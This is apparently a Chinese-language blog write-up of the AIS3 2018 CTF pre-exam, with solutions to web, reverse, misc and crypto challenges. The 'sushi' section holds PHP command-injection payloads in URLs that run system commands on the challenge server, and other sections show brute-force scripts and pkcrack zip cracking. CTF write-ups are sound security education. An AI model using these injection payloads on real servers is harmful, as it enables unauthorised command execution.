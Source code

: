 ```yaml
---
title: AIS3 2018 write-up
date: 2018-10-31 00:49:29
tags:
- CTF
- AIS3
- Security
categories:
- CTF
keywords: 
- ais3
- ctf
- security
description: 
---
```

今年第二次參加 AIS3 pre-exam 的感想
* 要用到程式解的地方滿多的
* Web2 對網路環境不好的人會跑很久
* Misc2 超多假 flag，要找到真的根本要通靈＝＝
<!--more-->

## Web

### 1. warmup
1. 打開 `開發者工具`，可以看到 `response headers` 裡面有奇怪的 `Partial-Flag`
![](https://i.imgur.com/rcEXreL.png)

2. 再看看網址列上有奇怪的參數，嘗試去改改看它，會發現 `partial flag` 跟著變了
![](https://i.imgur.com/DQfYv70.png)

3. 再仔細觀察一下，發現前四個 `partial flag` 是 AIS3，所以可以知道 `partial flag` 組合起來就是這題的 `flag` 了。

4. 但這題 `flag` 有點長，所以我用 Python 來解
    ```python=
    import requests
    for i in range(50):
        r = requests.get("http://104.199.235.135:31331/index.php?p={}".format(i))
        key = r.headers['Partial-Flag']
        if key == '':
            print(' ', end='')
        else:
            print(key, end='')
    ```

### 2. hidden
1. 打開網頁就看到這行字
![](https://i.imgur.com/5OJsVE0.png)

2. 因為看到上面顯示的文字，所以想到 secret page 可能藏在 `robots.txt` 裡
![](https://i.imgur.com/uy25Pq8.png)

3. 進到 `_hidden_flag_.php` 頁面之後，發現還是沒有看到 `flag`。
![](https://i.imgur.com/ZtBmkWv.png)

4. 打開 `開發者工具` 查看 HTML，發現按鈕會送出奇怪的 `form-data`。
![](https://i.imgur.com/zz829Vy.png)

5. 按了幾次按鈕後，會發現 `c` 不斷的再增加， `s` 也跟著變
![](https://i.imgur.com/dsAPbmV.png)

6. 透過 `開發者工具` 的看看 `response`，發現了奇怪的假 `flag`
![](https://i.imgur.com/MxqkyK1.png)

6. 拿 Python 去跑跑看，跑到幾萬後會發現 `response` 的 `Flag` 變了，`flag` 就出來的
    ```python=
    import requests
    from bs4 import BeautifulSoup
    payload = {'c': "1", 's': '3241b876891b9ea67db897e940db6ea9e7e351447546b8da82bbf3693dfe9ebb'}
    while True:
        r = requests.post('http://104.199.235.135:31332/_hidden_flag_.php', payload)
        soup = BeautifulSoup(r.content, "html.parser")
        print(r.headers)
        f = open('ans.txt', 'a')
        f.write(str(r.headers)+"\n")
        if 'AIS3{NOT_A_VALID_FLAG}' not in str(r.headers):
            break
        c = soup.find("input", {"name":'c'})['value']
        s = soup.find("input", {"name":'s'})['value']
        payload = {'c': c, 's': s}    
    ```

### 3. sushi
這題查了一下資料，嘗試很多次，最後發現考的好像是 `php double quote`
1. 可以印出當前檔案目錄
    ```
    http://104.199.235.135:31333/?🍣=${@system(ls)}
    ```
    ![](https://i.imgur.com/rHdn9mO.png)

2. 因為這題 `.htaccess` 沒有限制，所以可以直接訪問 `flag`
    ```
    http://104.199.235.135:31333/flag_name_1s_t00_l0ng_QAQQQQQQ
    ```

3. 不過如果有限制，可以利用下面的解法來印出 `flag`
    ```
    http://104.199.235.135:31333/?🍣=".`$_GET[1]`."&1=cat flag_name_1s_t00_l0ng_QAQQQQQQ
    ```


## Reverse
### 1. find
這題只是將 `flag` 藏在檔案中，可以用記事本或是編輯器打開，用 `ctrl+f` 很快就能找到了。
1. 如果是用 linux 或 mac 有更快的解法
![](https://i.imgur.com/70zIglq.png)

### 3. crackme
1. 猜測這是用 .NET 寫的，所以用 [dnSpy](https://github.com/0xd4d/dnSpy) 來打開它
2. 在 `MainWindow` 中看到疑似 `flag` 的東西
![](https://i.imgur.com/9eywW9l.png)

4. 發現 `secret` 是用 XOR 加密然後轉成 int 
![](https://i.imgur.com/jy0YJuo.png)

6. 用 Python 來解
    ```python=
    #!/usr/bin/env python3
    list = [234, 226, 248, 152, 208, 154, 223, 244, 226, 158, 244, 238, 234, 216, 210, 244, 223, 228, 244, 232, 249, 159, 200, 192, 244, 230, 206, 138, 214]
    for i in list:
        print(chr(i^171), end='')   
    ```
## Misc
### 1. welcome
送分題，看影片拿 flag
### 2. flags
這題可以找到 3 個假 `flag`，要找到真 `flag` 根本要通靈＝＝
1. 用編輯器開他，會發現有假 `flag` 藏在其中
2. 將檔名改成 jpg，會看到圖片上面顯示著假 `flag`
![](https://i.imgur.com/kZBhDwS.jpg)

4. 用 `binwalk` 去分析檔案，會發現其中藏著 zip
![](https://i.imgur.com/uIHBkQb.png)

4. 用 dd 把其中的 zip 拆出來
    ```shell
    dd if=flags.jpg of=flag skip=48932 bs=1
    ```
5. 拆出來的 zip 有密碼，所以用 `pkcrack` 來破解
    ```shell
    pkcrack -c backup/Avengers_Infinity_War_Poster.jpg -p Avengers_Infinity_War_Poster.jpg -C flag.zip -P photo.zip
    ```
7. 破解完後拿到裡面的 `flag` 檔，發現還是假的＝＝
8. 最後透過主辦方給出的提示，回到第二步那張圖，盯了老半天，發現那個框框藏有**摩斯密碼**...
![](https://i.imgur.com/kZBhDwS.jpg)


## Crypto
### 1. POW
這題考的就是 `proof of work`
1. 用 Python 暴力去運算比對是否符合條件
    ```python=
    #!/usr/bin/env python3
    import itertools
    import string
    from hashlib import *
    from pwn import *

    r = remote('104.199.235.135', 20000)
    r.recvuntil("condition : x[:6] == '")
    cond = r.recvuntil("'").decode('ascii').rstrip("'")
    r.recvuntil('x = ')
    ans = ''
    alphanumeric = string.ascii_uppercase + string.ascii_lowercase + string.digits
    for s in itertools.product(alphanumeric, repeat=4):
        if sha256(('%s%s'%(cond, ''.join(s))).encode('utf-8')).hexdigest().startswith('000000'):
            ans = cond + ''.join(s)
            break
    r.sendline(ans)
    r.interactive()
    ```